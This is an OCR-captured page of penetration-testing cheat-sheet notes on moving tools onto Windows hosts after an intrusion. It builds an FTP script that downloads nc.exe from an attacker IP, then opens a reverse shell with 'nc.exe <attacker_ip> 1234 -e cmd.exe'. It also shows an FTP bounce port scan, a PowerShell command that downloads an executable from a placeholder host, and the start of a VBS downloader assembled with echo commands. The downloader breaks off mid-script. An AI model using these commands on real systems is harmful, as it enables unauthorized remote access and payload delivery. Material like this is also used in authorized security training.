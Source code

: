 echo open <attacker\_ip> 21> ftp.txt

echo USER offsec>> ftp.txt

echo ftp>> ftp.txt

echo bin >> ftp.txt

echo GET nc.exe >> ftp.txt

echo bye >> ftp.txt

ftp -v -n -s:ftp.txt

nc.exe <attacker\_ip> 1234 -e cmd.exe

Bounce port sanning

$ nc $ip 21

220 Femitter FTP Server ready.

USER anonymous

331 Password required for anonymous.

PASS foo

230 User anonymous logged in.

PORT 127,0,0,1,0,80

200 Port command successful.

LIST

Nice trick to share folders with RDP:

$ rdesktop (ip) -r disk:share=/home/bayo/store

With powershell:

$ powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/b.exe','C:\Users\YOURUSER\Desktop\b.exe')"

Paste the following block in a command line to get a web client:

echo strUrl = WScript.Arguments.Item(0) > wget.vbs

echo StrFile = WScript.Arguments.Item(1) >> wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 >> wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 >> wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 >> wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 >> wget.vbs

echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs

echo Err.Clear >> wget.vbs

echo Set http = Nothing >> wget.vbs
